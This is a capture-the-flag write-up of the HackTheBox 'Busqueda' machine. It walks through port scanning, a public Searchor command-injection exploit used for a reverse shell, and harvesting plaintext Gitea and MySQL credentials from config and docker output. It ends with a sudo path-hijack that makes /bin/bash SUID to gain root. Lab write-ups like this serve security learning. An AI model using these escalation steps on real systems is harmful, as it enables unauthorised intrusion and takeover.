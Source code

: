 ```yaml
---
title: Busqueda
categories: [HackTheBox]
tags: [PrivEsc, Public Exploit, gitea, searcher]
media_subpath: /Vulnhub-Files/img/
image:
  path: Busqueda/Untitled.jpeg
  alt: Linux Easy level Machine 📂 ...
---
```




## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Busqueda]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.10.11.208
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-29 10:05 IST
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.63s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed.
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

I loaded this port 80 and I got redirected to `searcher.htb` domain name so I set the `/etc/hosts` file in the attackers machine and got this simple site →

![Untitled](Busqueda/Untitled.png)

I got this version of this CMS site `Searchor 2.4.0`  and I searched the exploit of it and got this exploit of `command Injection` through python.

[GitHub - nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection: Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/tree/main)

Now I used this exploit and got the reverse shell on its system.

![Untitled](Busqueda/Untitled%201.png)

Lets enumerate further →

```bash
svc@busqueda:/var/www/app/.git$ cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
svc@busqueda:/var/www/app/.git$
```
{: .nolineno}
{: .nolineno}

I got credentials of gitea site and a new domain name too so lets set and add in /etc/hosts.

I got into its account site →

![Untitled](Busqueda/Untitled%202.png)

I also noticed the administrators account but can’t login with that same password .

I then used the cody password in as svc account password to see the `sudo -l` command to access root account.

```bash
svc@busqueda:~$ ls -al
total 36
drwxr-x--- 4 svc  svc  4096 Apr  3  2023 .
drwxr-xr-x 3 root root 4096 Dec 22  2022 ..
lrwxrwxrwx 1 root root    9 Feb 20  2023 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 svc  svc  3771 Jan  6  2022 .bashrc
drwx------ 2 svc  svc  4096 Feb 28  2023 .cache
-rw-rw-r-- 1 svc  svc    76 Apr  3  2023 .gitconfig
drwxrwxr-x 5 svc  svc  4096 Jun 15  2022 .local
lrwxrwxrwx 1 root root    9 Apr  3  2023 .mysql_history -> /dev/null
-rw-r--r-- 1 svc  svc   807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 Feb 20  2023 .searchor-history.json -> /dev/null
-rw-r----- 1 root svc    33 Dec 28 16:47 user.txt
svc@busqueda:~$ cat user.txt
cat user.txt
ffcc2dd47b3d6d1c3a86566951886a72
svc@busqueda:~$
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:/var/www/app/.git$
```
{: .nolineno}
{: .nolineno}

I used this command and got 3 options →

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py bacd
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/tmp$
```
{: .nolineno}
{: .nolineno}

I used the `docker-inspect` command with format flag →

![Untitled](Busqueda/Untitled%203.png)

so lets use this command →

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py docker-ps                  
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   11 months ago   Up 12 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   11 months ago   Up 12 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```
{: .nolineno}
{: .nolineno}

I got 2 images of docker that can have its own configuration file so lets try it on mysql and I think I will get the credentials of mysql account →

```bash
svc@busqueda:/var/www/app/.git$ sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' f84a
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}

svc@busqueda:/var/www/app/.git$
```
{: .nolineno}
{: .nolineno}

Lets use its password on gitea site for administrators access and when  I tried it I got in →

![Untitled](Busqueda/Untitled%204.png)

when I checked `system-checkup.py` file I noticed that the file path is not specified so I will be creating a file in any directory with name as `full-checkup.sh` file and insert the payload into the I will be payload to make `/bin/bash` as SUIDs permissions :

![Untitled](Busqueda/Untitled%205.png)

Lets use the `sudo python3 /opt/scripts/system-checkup.py full-checkup` command →

```bash
svc@busqueda:/tmp$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ bash -p
bash-5.1# ls -al
bash-5.1# cd /root
bash-5.1# ls -al
total 60
drwx------  9 root root 4096 Dec 28 16:47 .
drwxr-xr-x 19 root root 4096 Mar  1  2023 ..
lrwxrwxrwx  1 root root    9 Feb 20  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Mar  1  2023 .cache
drwx------  3 root root 4096 Mar  1  2023 .config
-rw-r-----  1 root root  430 Apr  3  2023 ecosystem.config.js
-rw-r--r--  1 root root  104 Apr  3  2023 .gitconfig
drwxr-xr-x  3 root root 4096 Mar  1  2023 .local
-rw-------  1 root root   50 Feb 20  2023 .my.cnf
lrwxrwxrwx  1 root root    9 Feb 20  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4096 Mar  1  2023 .npm
drwxr-xr-x  5 root root 4096 Dec 28 16:47 .pm2
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Dec 28 16:47 root.txt
drwxr-xr-x  4 root root 4096 Apr  3  2023 scripts
drwx------  3 root root 4096 Mar  1  2023 snap
bash-5.1# whoami
root
bash-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) groups=1000(svc)
bash-5.1# cat root.txt
2b58c418e01ad180b2c4f5c363e9bc8e
bash-5.1#
```
{: .nolineno}
{: .nolineno}

I am root now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }